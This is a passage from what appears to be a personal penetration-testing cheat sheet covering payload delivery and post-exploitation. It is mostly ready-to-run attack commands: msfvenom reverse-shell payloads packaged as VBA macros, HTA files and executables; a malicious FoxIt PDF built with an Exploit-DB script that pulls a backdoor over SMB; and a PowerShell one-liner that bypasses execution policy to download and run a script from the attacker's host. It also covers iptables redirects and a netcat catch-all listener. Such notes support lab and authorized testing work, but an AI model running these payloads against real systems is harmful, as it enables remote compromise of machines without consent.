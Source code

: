     ```
    msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f vba -o macro.vba
    ```
    
2. Generate a HTA payload
    
    ```
    msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta -o index.hta
    ```
    
3. Generate a malicious FoxIt pdf document

[Exploit db script](https://www.exploit-db.com/exploits/49116)

[Impacket smbserver](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o giveyouup.exe
smbserver.py -smb2support -ip <IP> TMP .
python 49116.py \\<IP>\TMP\backdoor.exe letyoudown.pdf
```

# Part 4: Post exploitation (privesc, av bypass, loot)

Pretty much anything concerning privilege escalation is already covered in WinPEAS and LinPEAS: https://github.com/carlospolop/PEASS-ng

Here is a little list of my own:

### 1. On which port can the remote target contact me? (reverse tcp scan)

Get [this script](https://github.com/InfosecMatter/Minimalistic-offensive-security-tools/blob/master/port-scan-tcp.ps1) and make it downloadable on port 80:

```
wget https://github.com/InfosecMatter/Minimalistic-offensive-security-tools/raw/master/port-scan-tcp.ps1
python -m http.server 80
```

Setup iptables just like for meterpreter/reverse_tcp_allports, but make sure port 80 is queryable, and start the netcat catch-all:

```
sudo iptables -i tun0 -A PREROUTING -t nat -p tcp --dport 20:79 -j REDIRECT --to-port 8000
sudo iptables -i tun0 -A PREROUTING -t nat -p tcp --dport 81:6000-j REDIRECT --to-port 8000
nc -nlvp 8000
```

Run the script locally:

```
powershell -ep bypass -nOp -c "iex (iwr http://192.168.119.248/port-scan-tcp.ps1 -UseBasicParsing);port-scan-tcp 192.168.119.248 (21,22,23,53,80,139,389,443,445,636,1433,3128,8080,3389,5985);"
```

If you have an output in powershell, you can see which ports the target can reach you on, and then open your set of ports (delivery, reverse shell, smb servers, etc). If you don’t have an output (blind command) you still can see on what ports you received packets by using wireshark or tcpdump. Remember that packets will be routed using PREROUTING, so netcat will not be able to see the original destination port.
